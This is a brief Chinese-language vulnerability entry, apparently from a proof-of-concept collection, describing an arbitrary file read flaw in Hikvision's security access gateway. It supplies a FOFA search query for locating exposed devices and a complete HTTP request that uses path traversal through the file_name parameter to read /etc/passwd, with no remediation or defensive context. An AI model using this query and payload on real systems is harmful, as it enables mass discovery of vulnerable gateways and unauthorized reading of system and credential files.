 ## 海康威视安全接入网关任意文件读取漏洞
海康威视安全接入网关存在任意文件读取漏洞，通过此漏洞攻击者可读取服务器上任意文件。

## fofa
```
body="webui/js/jquerylib/jquery-1.7.2.min.js" && product="ABT-应用网关" || body="webui/js/jquerylib/jquery-1.7.2.min.js" && product="HIKVISION-安全网关"
```

## poc
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USGSESSID=b75bce9897c9e543ab7be9ac44af4f76
Upgrade-Insecure-Requests: 1
```

![2fa214010159c2d5b7921f7baedc8a3d](../../images/075fbfb9-1dc8-45b5-935b-1eb09d82f449.png)
